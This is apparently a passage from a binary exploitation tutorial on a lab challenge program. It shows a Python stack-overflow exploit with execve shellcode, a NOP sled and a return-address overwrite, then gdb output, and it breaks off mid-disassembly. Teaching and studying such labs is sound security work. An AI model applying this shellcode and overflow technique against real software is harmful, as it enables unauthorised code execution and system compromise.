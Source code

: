 Lets insert the correct values:

```python
#!/usr/bin/python
# Skeleton exploit for challenge12
import sys
import struct

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64
offset = 84

# 0x7fffffffe87b
ret_addr = struct.pack('<I', 0x7fffffffe87b)

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```

And try it:

```sh
root@hlUbuntu64:~/challenges/challenge12# gdb -q challenge12
Reading symbols from challenge12...(no debugging symbols found)...done.
(gdb) run `python ./challenge12-exploit-gdb.py` bbbb
Starting program: /root/challenges/challenge12/challenge12 `python ./challenge12-exploit-gdb.py` bbbb
Hello cmd-�������������������������������������1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAA{����.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe8ba in ?? ()
(gdb) x/8x 0x7fffffffe87b
0x7fffffffe87b:	0x3a303d73	0x303d6964	0x34333b31	0x3d6e6c3a
0x7fffffffe88b:	0x333b3130	0x686d3a36	0x3a30303d	0x343d6970
```

Seems the shellcode moved to another position. Lets find the new address:


```sh
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004007d4 <+0>:	push   %rbp
   0x00000000004007d5 <+1>:	mov    %rsp,%rbp
   0x00000000004007d8 <+4>:	sub    $0x10,%rsp
   0x00000000004007dc <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000004007df <+11>:	mov    %rsi,-0x10(%rbp)
   0x00000000004007e3 <+15>:	cmpl   $0x3,-0x4(%rbp)
   0x00000000004007e7 <+19>:	je     0x40080c <main+56>
   0x00000000004007e9 <+21>:	mov    -0x10(%rbp),%rax
   0x00000000004007ed <+25>:	mov    (%rax),%rax
   0x00000000004007f0 <+28>:	mov    %rax,%rsi
   0x00000000004007f3 <+31>:	mov    $0x40099c,%edi
```
